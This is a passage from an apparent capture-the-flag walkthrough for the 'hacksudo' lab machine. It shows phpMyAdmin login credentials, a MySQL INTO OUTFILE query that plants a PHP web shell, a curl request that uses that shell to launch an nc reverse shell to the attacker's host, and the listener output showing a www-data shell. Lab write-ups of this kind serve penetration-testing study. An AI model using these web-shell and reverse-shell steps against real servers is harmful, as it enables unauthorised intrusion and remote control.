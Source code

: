 #### PHPmyAdmin

- Go to port `9000` and login using `vishal:hacksudo`

#### Upload the backdoor using `MySQL` query
{% highlight sql %}
  SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php"
{% endhighlight %}

![image]( /assets/img/hacksudo/hacksudo-2.png)

#### Reverse console

- `Curl`
{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ curl http://10.0.2.224/backdoor.php?cmd=nc%20-e%20%2Fbin%2Fsh%2010.0.2.15%205555  
{% endhighlight %}

- `Listener`
{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ nc -lvp 5555
  listening on [any] 5555 ...
  connect to [10.0.2.15] from 10.0.2.224 [10.0.2.224] 33034
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /usr/bin/script -qc /bin/bash /dev/null
  www-data@hacksudo:/var/www/html$
{% endhighlight %}

![image]( /assets/img/hacksudo/hacksudo-3.png)
